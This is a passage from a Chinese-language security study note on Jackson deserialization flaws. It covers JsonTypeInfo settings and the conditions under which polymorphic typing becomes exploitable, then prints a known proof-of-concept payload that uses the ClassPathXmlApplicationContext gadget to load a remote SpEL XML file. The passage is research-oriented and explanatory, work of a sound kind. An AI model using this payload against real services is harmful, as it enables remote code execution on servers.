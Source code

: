     直接上总结：
    | 注解值                          | 详情                                                         |
    | ------------------------------- | ------------------------------------------------------------ |
    | `JsonTypeInfo.Id.NONE`          | 有无这个没区别，摆设（                                       |
    | `JsonTypeInfo.Id.CLASS`         | 序列化的内容中，额外使用`@class`指定属性（成员） Object 的类名。 |
    | `JsonTypeInfo.Id.MINIMAL_CLASS` | 和 `JsonTypeInfo.Id.CLASS` 一样，只不过`@class`变成了`@c`。  |
    | `JsonTypeInfo.Id.NAME`          | 多了 `@type`，从官方的解释可以看出它是一个“逻辑”标签，指定类时不会指出其完整的包名，所以没法被反序列化利用。 |
    | `JsonTypeInfo.Id.CUSTOM`        | 需要自定义，手写解析器。                                     |

### 3.3 漏洞存在条件和基本原理

1. 首先上述的设置均在**反序列化端/服务端**设置。

2. 其次它这个序列化和常见的 Java 反序列化亦或是 Fastjson 的序列化有一定的区别，重点在于反序列化：
    `objectMapper.readValue(serializedStr, 目标.class)`。
    根据实际的业务不同，这里的 `目标.class` 也不同。
    而漏洞的触发点还在于这个目标类内**是否存在类为 `Object`、`Interface` 等的成员/属性**。
    以 `ClassPathXmlApplicationContext` 利用链为例，网上常见的 PoC 就是：

    ```java
    String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8000/spel.xml\"]";
    ObjectMapper mapper = new ObjectMapper();
    mapper.enableDefaultTyping();
    // 这里转成的是 Object.class
    mapper.readValue(payload, Object.class);
    ```

    但是实际业务毕竟不会就转成个 `Object`，假如我这里有个 Bean：
    ```java
    package com.endlessshw.jacksonrange.Bean;
    
    import com.fasterxml.jackson.annotation.JsonTypeInfo;
    
    import java.io.IOException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 用户类
     * @date 2024/10/26 14:28
     */
    public class User {
        public String name;
        public int age;
        // @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
        public Object test;
    
        public String getName() {
            return name;
        }
    